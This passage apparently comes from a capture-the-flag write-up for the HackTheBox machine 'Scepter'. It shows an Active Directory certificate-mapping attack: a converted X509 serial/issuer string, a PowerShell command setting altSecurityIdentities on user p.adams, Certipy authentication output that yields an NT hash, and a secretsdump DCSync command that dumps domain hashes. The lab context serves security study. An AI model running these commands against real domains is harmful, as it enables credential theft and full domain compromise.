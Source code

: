 ```python
    convert(args.serial, args.issuer)
```
**Run:**
```bash
python3 conv.py -serial 62:00:00:00:09:92:96:68:CF:F0:98:1A:D8:00:00:00:00:00:09 -issuer "DC=htb, DC=scepter, CN=scepter-DC01-CA"
```
Example output:
```
X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062
```

---

## PowerShell: setting altSecurityIdentities, defining $map variable

```powershell
$map = 'X509:<I>DC=htb,DC=scepter,CN=scepter-DC01-CA<SR>090000000000d81a98f0cf6896920900000062'
Set-ADUser p.adams -Replace @{altSecurityIdentities=$map}
```

---

## Certipy auth as p.adams

```bash
certipy auth -pfx nonamepc.pfx -dc-ip 10.10.11.65 -username p.adams
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] The provided username does not match the identification found in the provided certificate: 'P.ADAMS' - 'meow$'
Do you want to continue? (Y/n) y
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b5
```
Hash: `aad3b4...:1b925c...`

---

## DCSync (ADDC hash dump)

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc -hashes aad3b4...:1b925c... scepter.htb/p.adams@10.10.11.65
```

---
